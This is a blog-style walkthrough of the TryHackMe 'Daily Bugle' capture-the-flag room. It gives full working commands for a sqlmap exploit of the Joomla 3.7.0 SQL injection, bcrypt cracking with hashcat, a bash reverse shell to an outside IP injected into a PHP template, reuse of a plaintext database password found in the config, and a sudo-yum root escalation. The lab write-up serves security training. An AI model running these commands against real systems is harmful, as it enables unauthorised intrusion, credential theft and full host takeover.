 ```yaml
---
title: Writeup Daily Bugle (THM)
layout: post
author: hyprcub
tags: writeup
---
```

# TL;DR

This [Try Hack Me box](https://tryhackme.com/room/dailybugle) features mainly SQLi and hashes cracking. It goes as follow:
- exploit an [SQL injection vulnerability in Joomla 3.7.0](https://www.exploit-db.com/exploits/42033) to get a password hash
- crack it and use the credentials to log in the CMS
- inject a one-line PHP reverse shell in Joomla's default template code
- mine passwords to escalate to a regular user
- abuse `sudo` and `yum`to get full privileges.

# Enumeration

## Ports and Services

We start we the usual ports scanning:
```bash
export target=10.10.175.125
nmap $target -p- -A -oN tcp_ports.txt
sudo nmap $target -sU -oN udp_ports.txt
```

From the results:
```
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```
we learn a bunch of things. Mainly, that there is a [Joomla! CMS instance](https://www.joomla.org/) on **port 80/tcp**.

## Port 80/tcp

To get Joomla's version one can read the `README.txt` or use [OWASP Joomscan](https://github.com/OWASP/joomscan) :
```bash
curl $target/README.txt
```

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master

[SNIP]
```
This is **Joomla 3.7**.

# Low Level Access

## SQLi
This particular Joomla version is subject to an [SQL injection vulnerability](https://www.exploit-db.com/exploits/42033). One can exploit it with [sqlmap](http://sqlmap.org/) to get a password hash:
```bash
sqlmap -u "http://$target/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump -C username,password
```

It gives:
![sqlmat output]({{ "/assets/img/daily-bugle-sqlmap.png"| absolute_url }})
For manual exploitation of this blind SQLi, see [hack3rman's considerations](https://github.com/hack3rman/TryHackMe/blob/master/Daily%20Bugle.md) and [his python script](https://github.com/hack3rman/TryHackMe/blob/master/Scripts/db-blind.py).

## Hash cracking

One can identify the hash using [haiti](https://noraj.github.io/haiti/#/):
```bash
echo $2y$[OBFUSCATED] > hash
haiti $(cat hash)
```
```
Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
Woltlab Burning Board 4.x
bcrypt [HC: 3200] [JtR: bcrypt]
```
**bcrypt** format  is confirmed by looking at [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

Then one crack it with [hashcat](https://hashcat.net):
```bash
export dict=/usr/share/wordlists/rockyou.txt
hashcat -m 3200 hash $dict
```
![Hashcat output]({{ "/assets/img/daily-bugle-hashcat.png" | absolute_url }})

## Shell

Now that we have credentials one can log in Joomla's administrator panel located at `http://$target/administrator/` and navigate to Joomla's defaut template to inject shell code into `/index.php`, namely:
```php
shell_exec("/bin/bash -i >& /dev/tcp/10.11.31.164/443 0>&1");
```
See below:
![shell code in a PHP file]({{ "/assets/img/daily-bugle-shell-code.png"| absolute_url }})

After having set up a netcat listener  and triggered the shell with `curl $target` one gets a command line as the user `www-data`:
![a shell as www-data]({{ "/assets/img/daily-bugle-shell.png" | absolute_url }})

Before proceeding to privilege escalation, let's enhance the shell:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
export PS1="(\u@\h) [\w]\$ "
alias ll="ls -al --color=auto" # yes, I like colors
```
see [ropnop's blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) for further details.

# Privilege Escalation

## Escalating to jjameson user

Doing the usual password mining, one can find the following lines in the file `/var/www/html/configuration.php`:
```php
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
```
which are the admin credentials for MySQL. The password is also good for the user `jjameson`:
![su as jjameson]({{ "/assets/img/daily-bugle-jjameson.png" | absolute_url }})

## Abusing sudo and yum

Checking `sudo -l` is one of the quickest win:
```
Matching Defaults entries for jjameson on dailybugle:
	!visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
	env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
	env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
	env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
	env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
	env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
	secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
	(ALL) NOPASSWD: /usr/bin/yum
```

According to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), `yum` can be abused to get full privileges:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
![root shell]({{ "/assets/img/daily-bugle-root.png" | absolute_url }})
